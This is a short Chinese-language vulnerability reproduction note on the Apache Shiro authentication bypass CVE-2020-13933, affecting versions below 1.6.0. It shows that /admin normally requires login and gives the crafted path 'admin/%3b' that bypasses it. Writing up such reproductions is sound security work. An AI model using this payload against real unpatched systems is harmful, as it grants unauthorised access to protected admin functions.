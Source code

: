 # 

# Apache Shiro  1.6.0 身份认证绕过漏洞 CVE-2020-13933

## 漏洞描述

2020年8月18日，Apache Shiro官方发布安全通告 Apache Shiro身份验证绕过漏洞（CVE-2020-13933），经过分析，攻击者可以通过构造特殊的HTTP请求实现身份验证绕过。

## 漏洞影响

```
Apache Shiro < 1.6.0
```

## 漏洞复现

正常访问 /admin，需要登录：

![image-20230724162154509](images/image-20230724162154509.png)

构造恶意请求绕过：

```
admin/%3b
```

![image-20230724162320484](images/image-20230724162320484.png)
